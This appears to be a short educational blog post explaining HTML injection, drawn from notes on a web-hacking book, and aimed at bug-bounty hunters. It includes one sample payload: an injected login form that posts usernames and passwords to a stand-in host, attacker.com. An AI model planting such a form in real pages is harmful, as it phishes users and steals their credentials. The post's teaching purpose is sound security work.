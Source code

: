 ```yaml
---
title: HTML Injection
date: '2019-02-14'
time: '☕️'
template: "post"
draft: false
slug: "HTML-vulnerability"
category: "Cybersecurity"
tags:
  - "Cybersecurity"
description: "HTML injection is also sometimes referred to as virtual
defacement. This is really an attack made possible by a site allowing a malicious user to
inject HTML into its web page(s) by not handling a user’s input properly."
---
```


This article was done using my notes from a book titled WEB Hacking 101 written by Peter Yaworksi in 2018.

<sub>Yaworksi P. (2018). Web Hacking 101, How To Make Money Hacking Ethically</sub>

## What are HTML injections ?

As said in the summary, Hypertext Markup Language (HTML) injection is also sometimes referred to as virtual
defacement. This attack made possible by a site allowing an attacker to inject HTML into its web page(s) by not handling a user’s input properly.

In other words, an HTML injection vulnerability is caused by receiving HTML, typically via some form
input, which is then rendered as inputted, on the web page.

Since HTML is the language used to define the structure of a web page, if an attacker can
inject HTML, they can essentially change what a browser renders and a web page looks
like.

Sometimes this could result in completely changing the look of a page or in other
cases, creating HTML forms to trick users in hope they use the form to submit sensitive
information (this is referred to as phishing).

For example, if you could inject HTML, you might be able to add a < form> tag to the page, asking the user to re-enter their username
and password like:

```
<form method='POST' action='http://attacker.com/capture.php' id="login-form">
<input type='text' name='username' value=''>
<input type='password' name='password' value=''>
<input type='submit' value='submit'>
</form>

```

However, when submitting this form, the information is actually sent to http://attacker.com
via an action attribute, which sends the information to an attacker’s web page.

## What to be on the look out for ?

HTML Injection presents a vulnerability for sites and developers because it can be used to
phish users and trick them into submitting sensitive information to, or visiting, malicious
websites.

Hackers should be on the lookout for the opportunity to manipulate URL parameters and have
them rendered on the site but keep in mind, not all sites value and pay for these types
of reports.
